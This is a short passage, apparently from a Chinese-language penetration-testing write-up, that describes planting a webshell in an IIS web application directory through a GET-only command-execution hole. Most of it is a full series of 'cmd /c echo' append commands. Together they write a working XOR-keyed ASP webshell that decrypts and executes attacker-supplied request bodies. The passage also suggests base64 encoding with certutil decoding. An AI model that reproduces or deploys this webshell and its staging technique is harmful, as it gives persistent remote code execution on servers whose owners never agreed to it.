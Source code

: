那就直接往 IIS 的 Web 应用目录写入 webshell 就好了，因为只支持 GET 请求，URL 有长度限制，因此需要通过追加文件的方式分段写入，可以一行一行写，也可以通过写入 base64 编码的 webshell 减少追加写入的次数，然后用 certutil 解码。  

```plain
cmd /c echo ^<% > D:\\release\\***\\***\\test1.asp
cmd /c echo Response.CharSet = "UTF-8" >> D:\\release\\***\\***\\test1.asp
cmd /c echo k="e45e329feb5d925b" >> D:\\release\\***\\***\\test1.asp
cmd /c echo Session("k")=k >> D:\\release\\***\\***\\test1.asp
cmd /c echo size=Request.TotalBytes >> D:\\release\\***\\***\\test1.asp
cmd /c echo content=Request.BinaryRead(size) >> D:\\release\\***\\***\\test1.asp
cmd /c echo For i=1 To size >> D:\\release\\***\\***\\test1.asp
cmd /c echo result=result&Chr(ascb(midb(content,i,1)) Xor Asc(Mid(k,(i and 15)+1,1))) >> D:\\release\\***\\***\\test1.asp
cmd /c echo Next >> D:\\release\\***\\***\\test1.asp
cmd /c echo execute(result) >> D:\\release\\***\\***\\test1.asp
cmd /c echo %^> >> D:\\release\\***\\***\\test1.asp
```

成功写入 webshell。  

![图片](assets/1706513706-731bf9d759c7770c788b3d8603d3016b.png)
